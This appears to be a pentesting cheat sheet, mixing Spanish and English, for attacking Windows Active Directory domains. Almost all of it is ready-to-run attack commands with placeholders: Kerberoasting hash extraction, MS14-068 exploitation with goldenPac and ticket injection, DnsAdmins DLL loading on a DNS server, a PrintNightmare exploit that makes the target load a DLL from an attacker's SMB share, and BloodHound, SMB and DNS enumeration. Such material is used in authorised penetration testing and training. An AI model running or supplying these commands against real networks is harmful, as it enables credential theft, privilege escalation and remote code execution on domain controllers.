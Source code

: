 - GetADUsers.py -all -dc-ip <dc_ip> <domain>/<username>

### Enumerar SMB share

- cme smb <ip> -u <user> -p <password> --shares

### bloodhound

- bloodhound-python -d <domain> -u <user> -p <password> -gc <dc> -c all

### powerview / pywerview

### kerberoasting

- Get hash

	- GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
	- Rubeus kerberoast

- Obtener usuarios kerberoasteables

	- Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName
	- MATCH (u:User {hasspn:true}) RETURN u
	- MATCH (u:User {hasspn:true}), (c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p

### MS14-068

- FindSMB2UPTime.py <ip>

	- rpcclient $> lookupnames <name>
wmic useraccount get name,sid
auxiliary/admin/kerberos/ms14_068_kerberos_checksum
	- goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>

		- kerberos::ptc "<ticket>"

### dnscmd.exe /config /serverlevelplugindll <\\path\to\dll> # need a dnsadmin user

- sc \\DNSServer stop dns
sc \\DNSServer start dns

### PrintNightmare 

- CVE-2021-1675.py <domain>/<user>:<password>@<target> '\\<smb_server_ip>\<share>\inject.dll'

### enum dns 

- dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query <dc_ip>

## Con usuario valido 

### Password spray
